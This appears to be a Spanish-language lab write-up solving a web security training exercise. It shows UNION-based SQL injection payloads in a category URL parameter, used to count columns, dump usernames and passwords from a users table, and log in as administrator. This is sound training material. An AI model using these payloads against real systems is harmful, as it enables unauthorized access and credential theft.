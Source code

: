 Tenemos el siguiente laboratorio:
![[Pasted image 20240517153631.png]]
Si entramos en alguna de las categorías, se marca en la url:
![[Pasted image 20240517153728.png]]
Insertamos el siguiente payload y vemos que hay 2 columnas:
```bash
category=Accessories'+UNION+SELECT+'abc','def'--
```
![[Pasted image 20240517153958.png]]
Ahora para conocer el contenido de las columnas username y password de la tabla users, usamos la siguiente query:
```bash
Accessories'+UNION+SELECT+username,+password+FROM+users--
```
![[Pasted image 20240517154105.png]]
Nos logueamos con la contraseña del usuario administrador y ya estamos dentro:
![[Pasted image 20240517154508.png]]
